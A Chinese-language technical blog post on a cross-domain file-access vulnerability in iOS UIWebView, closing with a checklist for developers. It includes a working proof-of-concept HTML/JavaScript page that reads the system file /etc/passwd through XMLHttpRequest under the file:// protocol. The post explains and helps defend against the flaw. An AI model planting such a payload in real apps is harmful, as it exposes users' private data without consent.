

## 谈一谈iOS平台跨域访问漏洞

**作者**: [Lefe_x](https://weibo.com/u/5953150140)

最近很多关于 `iOS Webview` 漏洞的话题，利用这个机会，我也来说说对这个漏洞的理解，如果有理解不对的地方，欢迎指出，同时感谢 `@折腾范儿_味精` 的指点。

`iOS` 平台跨域访问漏洞成因是由于 `UIWebView` 默认开启了`WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 选项。这样黑客利用这个漏洞给某个 `App` 下发一个 `HTML` 文件，当 `UIWebView` 使用 `file` 协议打开这个 `HTML` 文件，而 `HTML` 文件中含有一段窃取用户数据的 `JS` 代码，这样就导致用户数据泄露的可能。为了演示这个漏洞，我特意写了一个 `Demo`，截图是运行结果。

```objc
NSString *filePath = [[NSBundle mainBundle] pathForResource:@"index" ofType:@"html"];
_webView = [[UIWebView alloc] initWithFrame:self.view.bounds];
[_webView loadRequest:[NSURLRequest requestWithURL:[NSURL fileURLWithPath:filePath]]];
```

```html
<!DOCTYPE html>
<html>
    <body>
        <script>
            // 这个可以是手机任意一个文件地址
            var localfile = "/etc/passwd"
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (xhr.readyState == 4) {
                    alert(xhr.responseText);
                }
            }
           try {
              xhr.open("GET", localfile, true);
              xhr.send();
           } catch (ex) {
              alert(ex.message);
           }
        </script>
    </body>
</html>
```



运行上面的代码，会读取出手机端 `/etc/passwd` 的文件。这样的话，我们可以利用这个漏洞访问其他应用的数据，而不必需要用户的许可。而 `WKWiebView` 的 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 默认是关闭的，不会存在这样的风险。

那么如何觉得自己的 `App` 是否是安全的呢？看看有没有满足下面几点：

1. `App` 中是否含有远程下发的 `html` 供 `APP` 加载，而中途会被别人篡改；
2. 加载 `HTML` 文件是通过 `file` 协议加载的；
3. 使用的是否为 `UIWebView`；
4. 使用 `WKWiebView` 是否有主动开启 `WebKitAllowUniversalAccessFromFileURLs` 和 `WebKitAllowFileAccessFromFileURLs` 这两个属性。

